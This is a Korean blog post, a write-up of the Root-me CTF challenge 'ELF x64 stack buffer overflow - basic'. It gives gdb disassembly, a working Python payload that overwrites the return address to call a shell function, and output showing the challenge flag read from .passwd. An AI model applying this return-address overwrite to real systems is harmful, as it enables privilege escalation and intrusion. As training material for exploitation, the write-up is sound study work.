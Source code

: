 ```yaml
---
layout: post
title: [Root-me] ELF x64 stack buffer over flow - basic
date: 2018-07-22 22:41:20 +0900
description: # Add post description (optional)
img: post-2.jpg # Add image post (optional)
tags: [CTF, Root-me]
author: purelledhand # Add name author (optional)
---
```


# 서론 : write-up

함수들을 조회해보면 아래와 같당

    gdb$ info func
    All defined functions:

    Non-debugging symbols:
    0x0000000000400528  _init
    0x0000000000400560  strlen@plt
    0x0000000000400570  system@plt
    0x0000000000400580  printf@plt
    0x0000000000400590  geteuid@plt
    0x00000000004005a0  __libc_start_main@plt
    0x00000000004005b0  __gmon_start__@plt
    0x00000000004005c0  setreuid@plt
    0x00000000004005d0  __isoc99_scanf@plt
    0x00000000004005e0  _start
    0x0000000000400610  deregister_tm_clones
    0x0000000000400640  register_tm_clones
    0x0000000000400680  __do_global_dtors_aux
    0x00000000004006a0  frame_dummy
    0x00000000004006cd  callMeMaybe
    0x00000000004006fc  main
    0x0000000000400760  __libc_csu_init
    0x00000000004007d0  __libc_csu_fini
    0x00000000004007d4  _fini


main에서는 호출되지 않는 callMeMaybe함수를 rip 핸들링을 통해 호출시키는 문제였다.

    gdb$ disas callMeMaybe
    Dump of assembler code for function callMeMaybe:
    0x00000000004006cd <+0>:	push   rbp
    0x00000000004006ce <+1>:	mov    rbp,rsp
    0x00000000004006d1 <+4>:	push   rbx
    0x00000000004006d2 <+5>:	sub    rsp,0x8
    0x00000000004006d6 <+9>:	call   0x400590 <geteuid@plt>
    0x00000000004006db <+14>:	mov    ebx,eax
    0x00000000004006dd <+16>:	call   0x400590 <geteuid@plt>
    0x00000000004006e2 <+21>:	mov    esi,ebx
    0x00000000004006e4 <+23>:	mov    edi,eax
    0x00000000004006e6 <+25>:	call   0x4005c0 <setreuid@plt>
    0x00000000004006eb <+30>:	mov    edi,0x4007e4
    0x00000000004006f0 <+35>:	call   0x400570 <system@plt>
    0x00000000004006f5 <+40>:	add    rsp,0x8
    0x00000000004006f9 <+44>:	pop    rbx
    0x00000000004006fa <+45>:	pop    rbp
    0x00000000004006fb <+46>:	ret    


해당 callMeMaybe함수를 보면 <+30> 라인부터 0x4007e4에 있는 문자열을 system함수의 인자로 넣어 실행시키는 것을 알 수 있다.

    gdb$ x/s 0x4007e4
    0x4007e4:	"/bin/bash"

그 주소에 있는 문자열은 위와 같이 "/bin/bash"였으며 따라서 callMeMaybe함수의 주소를 eip 값으로 넣으면 쉘을 딸 수 있음을 알 수 있었다.

    gdb$ disas main
    Dump of assembler code for function main:
    0x00000000004006fc <+0>:	push   rbp
    0x00000000004006fd <+1>:	mov    rbp,rsp
    0x0000000000400700 <+4>:	sub    rsp,0x120
    0x0000000000400707 <+11>:	mov    DWORD PTR [rbp-0x114],edi
    0x000000000040070d <+17>:	mov    QWORD PTR [rbp-0x120],rsi
    0x0000000000400714 <+24>:	lea    rax,[rbp-0x110]
    0x000000000040071b <+31>:	mov    rsi,rax
    0x000000000040071e <+34>:	mov    edi,0x4007ee
    0x0000000000400723 <+39>:	mov    eax,0x0
    0x0000000000400728 <+44>:	call   0x4005d0 <__isoc99_scanf@plt>
    0x000000000040072d <+49>:	lea    rax,[rbp-0x110]
    0x0000000000400734 <+56>:	mov    rdi,rax
    0x0000000000400737 <+59>:	call   0x400560 <strlen@plt>
    0x000000000040073c <+64>:	mov    DWORD PTR [rbp-0x4],eax
    0x000000000040073f <+67>:	lea    rax,[rbp-0x110]
    0x0000000000400746 <+74>:	mov    rsi,rax
    0x0000000000400749 <+77>:	mov    edi,0x4007f1
    0x000000000040074e <+82>:	mov    eax,0x0
    0x0000000000400753 <+87>:	call   0x400580 <printf@plt>
    0x0000000000400758 <+92>:	mov    eax,0x0
    0x000000000040075d <+97>:	leave  
    0x000000000040075e <+98>:	ret    
    End of assembler dump.


main 함수의 어셈블리를 보면 0x100의 인자를 scanf로 받은 후 Hello [인자] 형태를 printf로 출력해주는 프로그램임을 알 수 있다. (아래 참조)

    app-systeme-ch35@challenge03:~$ ./ch35
    AAAA
    Hello AAAA

scanf함수에 넣은 값은 rbp-0x110부터 들어간다.

    gdb$ x/s $rbp-0x110
    0x38b07867980:	'A' <repeats 47 times>

이제 ret의 주소가 rbp+8이므로 페이로드를 'A'*0x118+[callMeMaybe() 주소값]으로 작성해서 ret값을 callMeMaybe함수의 주소로 덮으면 된다!

    app-systeme-ch35@challenge03:~$ (python -c 'print "A"*0x118+"\xcd\x06\x40\x00\x00\x00\x00\x00"'; cat) | ./ch35
    Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
    ls -al
    total 28
    drwxr-x---  2 app-systeme-ch35-cracked app-systeme-ch35         4096 mai   25  2015 .
    drwxr-xr-x 35 root                     root                     4096 mars  17 09:33 ..
    -rwsr-x---  1 app-systeme-ch35-cracked app-systeme-ch35         8633 mai   24  2015 ch35
    -rw-r-----  1 app-systeme-ch35-cracked app-systeme-ch35          447 mai   24  2015 ch35.c
    -r--------  1 app-systeme-ch35-cracked app-systeme-ch35-cracked   20 mai   24  2015 .passwd
    id
    uid=1235(app-systeme-ch35-cracked) gid=1135(app-systeme-ch35) groups=1235(app-systeme-ch35-cracked),100(users),1135(app-systeme-ch35)
    cat .passwd
    B4sicBufferOverflow
    
풀고 나서 다른 분이 쓰신 라업을 봤는데 페이로드에 주소값을 그냥 빅엔디안으로 쓰고 [:: - 1]을 이용해서 리틀엔디안으로 처리하시더랑
되게 좋은 꿀팁이었당 앞으로 나도 애용해야겠다.


# 본론 : 내가 배운 것


이전에 풀었던 문제들과 비슷한 패턴이었음에도 불구하고 오랫동안 삽질을 했다.

아직 체계가 흐릿하게 잡혔지만 **64비트 바이너리에서 rbp+8이 ret임을 확인**해갔던 과정을 포스팅하면서 다시 정리하고자 한다.

    gdb$ i r
    rax            0x1	0x1
    rbx            0x0	0x0
    rcx            0x0	0x0
    rdx            0x1	0x1
    rsi            0x30d8368e9f0	0x30d8368e9f0
    rdi            0x30d8368d640	0x30d8368d640
    rbp            0x38b27699850	0x38b27699850
    rsp            0x38b27699730	0x38b27699730
    rip            0x40072d	0x40072d <main+49>

    gdb$ x/10gx $rbp+8
    0x38b27699858:	0x0000030d832eff45	0x0000038b27699938

보면 rip의 값은 0x40072d로 다음에 실행될 명령어의 주소를 의미한다.
하지만 rbp+8의 값은 0x40072d가 아닌 값이라 낯설 수 있다.

rbp+8 값의 인스트럭트를 따라가보면 도중에 아래와 같은 내용이 나온다.

    0x0000030d832eff43 <+243>:	call   rax
    0x0000030d832eff45 <+245>:	mov    edi,eax
    0x0000030d832eff47 <+247>:	call   0x30d8330a1e0 <__GI_exit>


<+243> call rax에서 rax의 값을 확인하기 위해 0x0000030d832eff43에 브레이크 포인트(이하 브포)를 걸었다.
이 때 __libc_start_main+0xf3 처럼 주소가 아닌 __libc_start_main으로부터의 오프셋으로 설정해야 브포가 걸렸다. 오프셋도 헥스값으로 주지않으면 브포가 걸리지 않는다.

    gdb$ b *__libc_start_main+0xf3
    Breakpoint 2 at 0x30d832eff43: file libc-start.c, line 287.

    gdb$ i r
    rax            0x4006fc	0x4006fc

이렇게 rax에 main함수의 주소인 0x4006fc가 들어있는 것을 확인할 수 있었다.
정리해보면 함수가 끝난 후 main을 호출하고 exit를 호출하는 로직이다.

<img src="../assets/img/rootme/system4/stack.jpg" alt="stack" style="width: 400px;"/>

그래서 main을 호출 한 후 return addr이 mov edi, eax가 된 상황이다. 그 이후에는 exit를 호출한 후 main으로 복귀할 것이다.

# 결론

> 1. 64비트 바이너리 환경에서 rbp와 rip, ret의 관계 체계를 정리해볼 수 있었다.
> 2. 페이로드 작성 시 힘들게 리틀엔디안으로 바꾸지 말고 [:: - 1]을 이용하자